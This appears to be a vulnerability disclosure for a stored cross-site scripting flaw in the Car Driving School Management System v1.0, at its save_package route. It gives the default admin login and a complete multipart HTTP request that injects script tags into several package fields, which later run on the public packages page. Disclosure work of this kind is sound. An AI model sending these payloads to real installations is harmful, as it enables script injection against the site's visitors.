


### XSS vulnerability exists in Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route:/cdsms/classes/Master.php?f=save_package

related file:Master.php

#### 1.Vulnerability analysis

As shown in the figure, in the Master.php file, the user input is not filtered or escaped, and is directly spliced into the SQL statement for storage and execution. As a result, the attacker can insert malicious script statements to cause malicious XSS execution of any user.



#### 2.Vulnerability verification and exploit

First, log in to the backend system based on the admin/admin123 account and password, construct the following malicious data packet and send it. Note that the IP, port and cookie need to be modified according to the actual environment.

```
POST /cdsms/classes/Master.php?f=save_package HTTP/1.1
Host: localhost
Content-Length: 718
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjw7lEVIBLIry2FeG
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/cdsms/admin/?page=packages
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1721700678; PHPSESSID=4asqu1rn36mla3asev5h3vtoqa
Connection: close

------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="name"

<script>alert("123123123")</script>
------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="description"

<script>alert("123123123")</script>
------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="training_duration"

<script>alert("123123123")</script>
------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="cost"

11
------WebKitFormBoundaryjw7lEVIBLIry2FeG
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryjw7lEVIBLIry2FeG--

```

The vulnerability was triggered after the front desk visited Our Packages.

